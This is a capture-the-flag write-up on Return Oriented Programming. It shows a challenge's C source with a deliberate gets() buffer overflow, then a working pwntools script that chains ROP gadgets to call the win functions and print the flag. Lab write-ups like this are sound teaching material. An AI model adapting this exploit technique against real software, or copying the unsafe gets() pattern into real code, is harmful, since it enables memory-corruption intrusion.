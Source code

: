 ROP
---------------
Return Oriented Programming

We're given a binary and the source code (thanks pico <3)
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);

  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

So what we see here is that we need to SOMEHOW call win_function1(), win_function2(), and flag() while still passing the correct arguments to it.

Fortunately for us the input is not sanitized which means we can overflow the buffer a lot!
So looking at the code, we need to:
1. Call win_function1
2. call win_function2 with the argument 0xBAAAAAAD
3. call flag() with argument 0xDEADBAAD

In order to pass the arguments correctly, we need to find a way to pop arguments off of the stack. We can use a handy tool to find some
```ROPgadget --binary rop```

particularly, we are looking for
  `pop ebx ; ret`
which can be found at address `0x0804840d`

Time to setup our rop!
```Python
from pwn import *
import struct

sh = process("./rop")

proc = ELF('./rop')

raw_input()
pop_ret = 0x0804840d
addr_win1 = int(hex(proc.symbols['win_function1']),16)
print(type(addr_win1))
addr_win2 = int(hex(proc.symbols['win_function2']), 16)
addr_flag = int(hex(proc.symbols['flag']), 16)
addr_main = int(hex(proc.symbols['main']), 16)


payload = "A"*28
payload += p32(addr_win1)
payload += p32(addr_win2)
payload += p32(pop_ret)
payload += p32(0xBAAAAAAD)
payload += p32(addr_flag)
payload += p32(pop_ret)
payload += p32(0xDEADBAAD)

sh.sendline(payload)
sh.interactive()
```

and we have a flag!
